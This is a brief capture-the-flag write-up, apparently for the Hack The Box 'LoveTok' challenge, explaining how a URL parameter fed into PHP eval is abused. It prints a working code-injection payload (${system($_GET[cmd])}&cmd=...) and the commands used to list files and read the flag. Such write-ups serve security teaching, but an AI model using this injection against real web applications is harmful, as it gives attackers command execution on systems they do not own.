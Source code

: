 # LoveTok

a website that has an exposed input on the url bar

![image](https://github.com/IcariZ/HTB/assets/89731969/65de2bc4-fd42-4a21-b59e-6472660e44f3)

tempering the parameter, we found that we can give any input string we want.
![image](https://github.com/IcariZ/HTB/assets/89731969/c085d7e2-07ed-4014-9631-0d1b25c960aa)

from the source code, anything that is in format is being process by giving slashes to prevent some malicious input
then being executed in eval statement

we can use this to get a shell

let's try to spawn shell with ``${system($_GET[cmd])}&cmd=pwd``

![image](https://github.com/IcariZ/HTB/assets/89731969/d07d1747-fb7a-4582-b0b8-c96138057aac)

then locate the flag with ``cmd=ls /``
![image](https://github.com/IcariZ/HTB/assets/89731969/65a3f771-6975-492f-8e5f-cb1712d0b650)

finally ``cmd=cat /flagbMxKo``
